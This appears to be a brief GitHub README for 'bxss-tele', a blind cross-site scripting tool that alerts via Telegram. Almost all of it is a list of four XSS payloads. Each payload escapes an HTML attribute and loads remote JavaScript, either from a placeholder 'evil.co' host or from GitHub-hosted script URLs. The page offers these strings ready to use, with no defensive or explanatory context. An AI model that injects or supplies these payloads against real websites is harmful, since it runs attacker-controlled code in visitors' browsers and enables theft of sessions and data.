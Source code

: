 # bxss-tele
Blind XSS Alert Telegram

# Payloads
```"><script src="http://evil.co/bxss.js"></script>``` \
```"><script src=http://tucommenceapousser.github.io/bxss/bxss.js></script>``` \
```"><script src="https://raw.githubusercontent.com/tucommenceapousser/bxss/trkn/bxss.js">``` \
```"><script>$.getScript("//evil.co/bxt.js")</script>```
